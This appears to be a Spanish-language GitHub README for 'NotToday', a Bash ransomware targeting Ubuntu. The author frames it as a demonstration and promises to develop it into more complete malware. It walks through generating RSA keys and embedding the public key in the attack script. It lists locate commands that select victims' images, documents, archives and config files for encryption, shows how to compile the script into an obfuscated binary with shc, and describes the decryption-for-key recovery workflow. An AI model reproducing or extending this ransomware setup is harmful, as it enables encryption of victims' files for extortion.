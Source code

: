 # NotToday
[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

NotToday en un ransomware programado en Bash Scripting de uso para distribuciones Ubuntu y derivados. Creado para la demostracion del funcionamiento de un ransomware y el impacto que este puede desmebocar en un computador. Así mismo el codigo aquí expuesto esta sujeto a cambio y actualizaciones de manera que se logre un malware mucho mas completo.

<center>![Logo NotToday](https://raw.githubusercontent.com/EduardoDesdes/NotToday/master/ntd.jpeg)</center>

## Configuracion Inicial
### Creacion de llaves RSA
Creamos una llave privada RSA aleatoria de una cantidad especifica.

    $ openssl genrsa -out clave.pem 4096

Luego creamos la llave publica mediante la llave privada.

    $ openssl rsa -in clave.pem -out clave.pub.pem -outform PEM -pubout
    
### Insertar la llave publica en el codigo
Para esto debemos editar el archivo ***pwn.sh*** por en contenido de la llave publica.
```bash
#Clave Publica
echo "-----BEGIN PUBLIC KEY-----" >> clave.pub.pem
...
...
echo "-----END PUBLIC KEY-----" >> clave.pub.pem
```

### Seleccionar que formato de ficheros desea encriptar
```bash
#Generar los archivos a encriptar
locate -r "\.jpg$" > /tmp/list.ntm
locate -r "\.jpeg$" >> /tmp/list.ntm
locate -r "\.png$" >> /tmp/list.ntm
locate -r "\.pdf$" >> /tmp/list.ntm
locate -r "\.odt$" >> /tmp/list.ntm
locate -r "\.rar$" >> /tmp/list.ntm
locate -r "\.zip$" >> /tmp/list.ntm
locate -r "\.txt$" >> /tmp/list.ntm
locate -r "\.conf$" >> /tmp/list.ntm
```

## Creacion del binario para ejecucion
Para crear el binario usaremos una herramienta llamada ***shc***.

    $ shc -v -r -f pwn.sh
    
Nos encontraremos con dos archivos, ***pwd.sh.x*** y ***pwn.sh.c***.

- ***pwd.sh.x***: El archivo ejecutable del ransomware.
- ***pwn.sh.c***: El script en c del ransomware.

## Recuperar los ficheros encriptados
Al realizarse satisfactoriamente el encriptado de los ficheros el ransomware deja un fichero denominado ***enviame.enc***, se deberá colocar en la misma carpeta que el archivo ***dcry.sh*** y la llave privada ***clave.pem***. Y ejecutar el siguiente comando.

    $ bash dcry.sh

El cual generará un fichero llamado ***key.txt***. Y ahora usaremos el fichero ***repa.sh*** para recuperar todos los archivos encriptados usando la key obtenida.

    $ bash repa.sh

## Creditos

Autor: ***Eduardo Sarria (Desdes)***

Facebook: [https://www.facebook.com/eduardo.s.desdes](https://www.facebook.com/eduardo.s.desdes)

Linkedin: [https://www.linkedin.com/in/eduardodesdes/](https://www.linkedin.com/in/eduardodesdes/)

OpenBugBounty: [https://www.openbugbounty.org/researchers/EduardoDesdes/](https://www.openbugbounty.org/researchers/EduardoDesdes/)